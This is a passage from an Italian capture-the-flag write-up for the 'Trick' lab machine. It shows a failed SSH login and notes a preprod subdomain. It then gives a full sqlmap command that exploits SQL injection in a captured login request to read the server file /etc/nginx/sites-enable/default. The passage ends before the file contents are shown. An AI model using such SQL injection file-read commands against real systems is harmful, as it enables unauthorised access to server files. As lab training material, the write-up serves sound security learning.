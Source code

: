 Quindi proviamo a fare l'accesso ad *ssh* con tale info ma non ci va bene
```shell
└─$ ssh Enemigosss@10.10.11.166
The authenticity of host '10.10.11.166 (10.10.11.166)' can't be established.
ED25519 key fingerprint is SHA256:CUKzxire1i5wxTO1zNuBswEtE0u/RyyjZ+v07fOUuYY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.166' (ED25519) to the list of known hosts.
Enemigosss@10.10.11.166's password: 
Permission denied, please try again.
```

## 3. Business Oriented CSS Template -> preprod-marketing.trick.htb
![web2](Images/Web2.png)

Ma non c'è nulla di interessante

## 4. SQLMAP
Siccome sappiamo che si può fare SQLInj possiamo pensare di sfruttarla per leggere file dal DB. Intercettiamo la richiesta di login con burp e la utilizzo per avviare *sqlmap*; in particolare, vedendo la [struttura di nginx](https://wiki.debian.org/Nginx/DirectoryStructure), particolare attenzione va su */etc/nginx/sites-enable/default*

```shell
└─$ sqlmap -r burp.req --batch --dbms mysql --threads 10 --file-read=/etc/nginx/sites-enable/default
```

Nel file interessate è la seguente parte:

